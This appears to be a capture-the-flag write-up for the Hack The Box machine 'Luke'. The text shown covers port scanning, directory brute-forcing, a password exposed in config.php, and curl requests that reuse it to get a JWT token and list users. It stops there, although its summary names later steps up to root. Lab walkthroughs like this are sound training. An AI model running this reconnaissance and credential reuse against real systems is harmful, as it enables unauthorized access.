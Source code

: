 <center><h1>Luke</h1></center>
<br>
<center><h3>Summary</h3></center>
<br>
- On FTP, there is a message hinting that we need a source file for the web application
- By running a gobuster, we can find all the directories and pages
- We use the credentials found to authenticate with the api
- Using the api we can list the credentials for users in plaintext
- Navigating to the /management directory we can log in with one of the users found
- We grab the root password from the config.json file
- Lastly, we log in as root into the Ajenti Admin panel, get a terminal and get the flags
<br><br>

First we start with an nmap scan

```
# Nmap 7.70 scan initiated Sun May 26 22:29:22 2019 as: nmap -sV -sC -T4 -oN LukeNmap 10.10.10.137
Nmap scan report for 10.10.10.137
Host is up (0.087s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3+ (ext.1)
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 0        0             512 Apr 14 12:35 webapp
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.4
|      Logged in as ftp
|      TYPE: ASCII
|      No session upload bandwidth limit
|      No session download bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3+ (ext.1) - secure, fast, stable
|_End of status
22/tcp   open  ssh?
80/tcp   open  http    Apache httpd 2.4.38 ((FreeBSD) PHP/7.3.3)
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.38 (FreeBSD) PHP/7.3.3
|_http-title: Luke
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
8000/tcp open  http    Ajenti http control panel
|_http-title: Ajenti

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May 26 22:32:22 2019 -- 1 IP address (1 host up) scanned in 180.36 seconds
```
<br>
So there are a few ports open> First thing I did was check FTP because I saw the Anonymous login was enabled. First thing I noticed was that there was a text file located in <b>webapp/</bold>. I copied the file onto my host machine so that I could read it.
```
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-r-xr-xr-x    1 0        0             306 Apr 14 12:37 for_Chihiro.txt
226 Directory send OK.

ftp> get for_Chihiro.txt
local: for_Chihiro.txt remote: for_Chihiro.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for for_Chihiro.txt (306 bytes).
226 Transfer complete.
306 bytes received in 0.87 secs (0.3433 kB/s)
```
<br>
Reading the file I can see a message that hints towards looking for source files
```
Dear Chihiro !!

As you told me that you wanted to learn Web Development and Frontend, I can give you a little
push by showing the sources of the actual website I've created .
Normally you should know where to look but hurry up because I will delete them soon because of
our security policies !

Derry  
```
<br>
Now I decide to check out port 80 only to be greeted by a very basic webpage that doesn't give me any useful information.

Now it was time to run a gobuster.
```
gobuster dir -u http://10.10.10.137 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,txt -t 20

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.137
[+] Threads:        20
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt
[+] Timeout:        10s
===============================================================
2019/09/16 12:57:24 Starting gobuster
===============================================================
/login.php (Status: 200)
/member (Status: 301)
/management (Status: 401)
/css (Status: 301)
/js (Status: 301)
/vendor (Status: 301)
/config.php (Status: 200)
/LICENSE (Status: 200)
```
<br>
Navigating to <b>/config.php</b> we are given some credentials to what looks like a SQL database
```
$dbHost = 'localhost';
$dbUsername = 'root';
$dbPassword = 'Zk6heYCyv6ZE9Xcg';
$db = "login";
$conn = new mysqli($dbHost, $dbUsername, $dbPassword,$db) or die("Connect failed: %s\n". $conn -> error);
```
<br>
Now, going to port 3000 will reveal a NodeJS app running that tells use we need an Auth token. This means that we will have to use JWT tokens

<center><img src="/htb/luke/node.png"></center>
<br>
Running a gobuster on the NodeJS page will reveal some useful directories that are necessary to craft the HTTP request
```
gobuster dir -u http://10.10.10.137:3000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,txt -t 20
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.137:3000
[+] Threads:        20
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt
[+] Timeout:        10s
===============================================================
2019/09/16 13:37:26 Starting gobuster
===============================================================
/login (Status: 200)
/users (Status: 200)
/Login (Status: 200)
/Users (Status: 200)
```
<br>

Using *[This article](https://medium.com/dev-bits/a-guide-for-adding-jwt-token-based-authentication-to-your-single-page-nodejs-applications-c403f7cf04f4)*, and the credentials we found earlier I was able to get get an Auth token using curl

```curl -X POST http://10.10.10.137:3000/login -H 'Content-Type: application/json' -d '{"username":"admin","password":"Zk6heYCyv6ZE9Xcg"}'
```
<br>
If you did everything went right then it should output an Auth token
```
{"success":true,"message":"Authentication successful!","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4NjU2MTgwLCJleHAiOjE1Njg3NDI1ODB9.msKF4DP_76XRz5ycCkfP8LjySR8issMSUWbxPF6p97U"}
```
<br>
Now I construct another curl command using the auth token
```
curl -X GET -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4NjU2NjM3LCJleHAiOjE1Njg3NDMwMzd9.VEVnCgx1yQrhXDFIHBULGEj8n90nFH5_piQAJYYQkdA' http://10.10.10.137:3000
```
<br>
We get a message that outputs
```
{"message":"Welcome admin ! "}
```
<br>
Now if we send the same request only this time to the users directory we get a list of users
```
curl -X GET -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4NjU2NjM3LCJleHAiOjE1Njg3NDMwMzd9.VEVnCgx1yQrhXDFIHBULGEj8n90nFH5_piQAJYYQkdA' http://10.10.10.137:3000
[{"ID":"1","name":"Admin","Role":"Superuser"},{"ID":"2","name":"Derry","Role":"Web Admin"},{"ID":"3","name":"Yuri","Role":"Beta Tester"},{"ID":"4","name":"Dory","Role":"Supporter"}]
```
<br>
